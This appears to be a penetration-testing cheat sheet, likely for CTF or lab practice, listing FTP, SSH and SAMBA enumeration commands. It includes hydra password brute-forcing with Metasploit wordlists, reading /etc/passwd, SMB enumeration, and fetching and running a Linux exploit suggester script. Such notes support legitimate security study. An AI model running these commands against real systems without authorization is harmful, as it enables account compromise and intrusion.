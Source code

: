 **FTP**

```
# FTP
ftp <TARGET_IP>

ls -lah /usr/share/nmap/scripts | grep ftp-*
searchsploit ProFTPD
```

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> -t 4 ftp
```

**SSH**

```
# SSH
ssh <USER>@<TARGET_IP>

groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
```

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt <TARGET_IP> -t 4 ssh
```

**SAMBA**

```
# SAMBA
smbmap -u <USER> -p '<PW>' -H <TARGET_IP>

smbclient -L <TARGET_IP> -U <USER>

enum4linux -a <TARGET_IP>
enum4linux -a -u "<USER>" -p "<PW>" <TARGET_IP>
```

```
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> smb
```

**Linux Privilege Escalation**



**Kernel**

```
# LINUX KERNEL
## Linux-Exploit-Suggester Install
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O linux-exploit-suggester.sh

chmod +x linux-exploit-suggester.sh

./linux-exploit-suggester.sh
```
